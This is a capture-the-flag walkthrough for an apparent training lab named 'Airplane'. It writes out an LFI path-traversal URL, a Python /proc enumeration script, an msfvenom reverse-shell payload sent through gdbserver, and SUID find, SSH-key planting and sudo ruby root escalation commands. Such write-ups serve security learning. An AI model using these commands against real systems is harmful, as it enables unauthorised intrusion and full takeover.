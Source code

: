 > Are you ready to fly?
#### Steps
1. Started out with an nmap scan `nmap -sV 10.10.101.33 -v`
2. Got the ports `22` and `8000`, ssh and http
3. Navigating to `10.10.101.33:8000`, I got redirected to `airplane.thm`
4. I added this to my host file for DNS resolution with:
```shell
sudo sh -c "echo '10.10.101.33 airplane.thm' >> /etc/hosts"
```
5. Navigating to the page, I found the page file specified with a page parameter -> `http://airplane.thm:8000/?page=index.html`
6. After checking source to make sure I didn't miss anything else, I modified the file path to grab `/etc/passwd`
```
http://airplane.thm:8000/?page=/../../../../etc/passwd
```
7. Easy LFI with no filters <333
8. From the file I found two users:
```
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
hudson:x:1001:1001::/home/hudson:/bin/bash
```
9. I tried to use the same path traversal to read potential `user.txt` files in the home folders, but all I could find was a `.bashrc` file under hudsons directory (also I checked for ssh keys (`/.ssh/id_rsa`), there were none)
10. One interesting thing is the `carlos,,,` section of carlos's line the in the /etc/passwd file
11. This is the `GECOS` section, and the following commas just mean that phone number, email, etc parameters are empty
12. So relatively useless </3 (but hey new info to me)
13. I tried running `hydra` to bruteforce `ssh` with the new usernames, but I didn't have much luck
14. Going back to the site itself, I decided to run a scan on all ports `-p- -T5` to see if there were any other processes I missed
15. From this I found port `6048`
```
PORT     STATE SERVICE VERSION
6048/tcp open  x11?
```
16. Ok strange
17. My only guess was trying to find out what processes were running by checking files manually
18. All of this info is in the `/proc` directory
19. Most `/proc` subdirectories are PIDs (numbers) so automating requests shouldn't be too difficult
20. So I wrote a VERY barebones python script
```python
import requests

for pid in range(1, 1001):
    url = f"http://airplane.thm:8000/?page=/../../../../proc/{pid}/cmdline"
    try:
        res = requests.get(url, timeout=1) 
        print(pid, res.text)
    except requests.exceptions.RequestException as e:
        print(f"Error fetching PID {pid}: {e}")
```
21. Took about 5000000 years to run but it worked!
22. Interesting results:
```
374 avahi-daemon: running [airplane.local]
529 /usr/bin/gdbserver0.0.0.0:6048airplane
```
23. Looking into `gdbserver`
```
└─$ searchsploit gdbserver                                     
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
GNU gdbserver 9.2 - Remote Command Execution (RC | linux/remote/50539.py
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
24. I used metasploit to exploit this
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.2.13.251 LPORT=7777 PrependFork=true -f elf -o exploit.elf
```
25. Make it executable with `chmod +x` and run it with `gdb exploit.elf`
26. Then on gdb I ran `target extended-remote 10.10.101.33:6048`
27. Set up a netcat listener on port `7777` (or wtv you choose) then transfer over the shell
```
(gdb) remote put exploit.elf /tmp/exploit.elf
(gdb) set remote exec-file /tmp/exploit.elf
(gdb) run

└─$ nc -lvnp 7777 
listening on [any] 7777 ...
connect to [10.2.13.251] from (UNKNOWN) [10.10.166.15] 39078
whoami
hudson
```
28. Stabilize the shell `python3 -c 'import pty;pty.spawn("/bin/bash")'`
29. There nothing in hudsons dir so we have to move to carlos
30. No sudo -l (because no passwod) so I checked binary perms first
31. `/usr/bin/find` showed up which is exploitable (https://gtfobins.github.io/gtfobins/find/)
32. `find . -exec /bin/sh -p \; -quit`
33. From there navigate to carlos and grab user.txt
34. Next privilege escalation
35. To ssh as carlos:
```shell
# host machine
ssh-keygen

# rev shell
echo "your public key" >> /home/carlos/.ssh/authorized_keys
```
36. `ssh -i` with your private key file
37. Running `sudo -l`
```
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```
38. gtfobins gives this command `ruby -e 'exec "/bin/sh"'` but since we can only run ruby files in the root directory there has to be a workaround
39. File traversal! (kinda)
```
carlos@airplane:~$ echo 'exec "/bin/sh"' >> /tmp/test.rb
carlos@airplane:~$ sudo ruby /root/../tmp/test.rb
# whoami
root
```
40. Done!
